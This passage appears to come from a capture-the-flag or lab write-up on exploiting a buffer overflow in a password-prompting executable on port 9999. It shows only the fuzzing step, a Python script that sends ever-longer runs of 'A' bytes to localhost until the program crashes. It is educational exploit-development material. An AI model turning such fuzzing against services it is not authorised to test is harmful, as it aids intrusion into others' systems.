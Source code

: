 This executable is the same as the one on the port 9999 of the target machine.

In order to run it from our Kali Linux machine, we'll be using `wine`:

![](img/wine.png)

### Step 1: Fuzzing

The program is waiting for password from the user input.

During this first step called "fuzzing", we'll be sending a bunch of characters in order to crash the program. This will potentially reveals a buffer overflow vulnerability.

I used the following script to do so: 

```python
import socket
import time
import sys

buffer = b"A" * 100
target = '127.0.0.1'
port = 9999

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.send((b"                          >> " + buffer))
        s.close()
        time.sleep(1)
        buffer = buffer + b"A" * 100
    except:
        print(f"Fuzzing crashed at {len(buffer)} bytes...")
        sys.exit(1)
```
